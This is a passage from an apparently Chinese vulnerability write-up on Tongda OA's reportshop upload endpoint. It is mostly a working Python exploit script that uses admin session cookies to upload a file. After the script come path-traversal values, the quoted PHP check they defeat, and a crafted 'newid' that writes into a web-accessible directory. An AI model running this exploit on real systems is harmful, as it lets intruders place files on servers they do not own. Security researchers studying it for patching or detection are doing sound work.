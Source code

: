 [https://www.t00ls.net/viewthread.php?tid=58383&amp;highlight=%E9%80%9A%E8%BE%BE](https://www.t00ls.net/viewthread.php?tid=58383&amp;highlight=%E9%80%9A%E8%BE%BE)

### <a class="reference-link" name="4%EF%BC%8C%E5%B0%86%E9%9D%9Ephp%E6%96%87%E4%BB%B6%E4%BC%A0%E5%88%B0%E4%BB%BB%E6%84%8F%E4%BD%8D%E7%BD%AE(%E9%9C%80%E8%A6%81%E7%99%BB%E5%BD%95)"></a>4，将非php文件传到任意位置(需要登录)

会检测referer

```
import requests

burp0_url = "http://192.168.0.116:80/general/reportshop/utils/upload.php"
burp0_cookies = `{`"USER_NAME_COOKIE": "admin", "OA_USER_ID": "admin", "creat_work": "new", "PHPSESSID": "29n49sf6pck3jaslqf69fppaa1", "SID_1": "2b8073b6"`}`
burp0_headers = `{`"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://127.0.0.1:888", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryWqqWIbfwlL4YwO4Q", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://192.168.0.116/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh,zh-CN;q=0.9", "Connection": "close"`}`
burp0_data = "------WebKitFormBoundaryWqqWIbfwlL4YwO4Q\r\nContent-Disposition: form-data; name=\"action\"\r\n\r\nupload\r\n------WebKitFormBoundaryWqqWIbfwlL4YwO4Q\r\nContent-Disposition: form-data; name=\"newid\"\r\n\r\n1\r\n------WebKitFormBoundaryWqqWIbfwlL4YwO4Q\r\nContent-Disposition: form-data; name=\"filetype\"\r\n\r\n\r\n------WebKitFormBoundaryWqqWIbfwlL4YwO4Q\r\nContent-Disposition: form-data; name=\"FILE1\"; filename=\"1.txt\"\r\nContent-Type: text/plain\r\n\r\n123213\r\n------WebKitFormBoundaryWqqWIbfwlL4YwO4Q--\r\n"
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
c:/oa/webroot/attachment/reportshop/attachment/`{`../../../../../`}`_1.txt  =&gt; oa/webroot/`}`_1.txt
c:/oa/webroot/attachment/reportshop/attachment/`{`../../../../../general/`}`_1.txt  =&gt; oa/webroot

    ../../../../../../../../../../../../../oa/webroot/ =&gt; 禁止创建
    ../../../../../../../../../../../../../oa/webroot/general/ =&gt; 禁止创建
    ../../../../../../../../../../../../../oa/attach/  =&gt; ok
    ../../../../../../../../../../../../../oa/         =&gt; ok
    ../../../../../../../../../../../../../oa/123/     =&gt; false

    需要绕过这个限制：
    if ((strpos($source, "webroot") !== false) &amp;&amp; (strpos($source, "attachment") === false)) `{`#当有webroot 没有attachment时，false
        return false;
    `}`
    else `{`
        return true;
    `}`

所以设置newid为：
../../../../../../../../../../../../../oa/webroot/general/reportshop/workshop/report/attachment-remark/ =&gt; ok
```
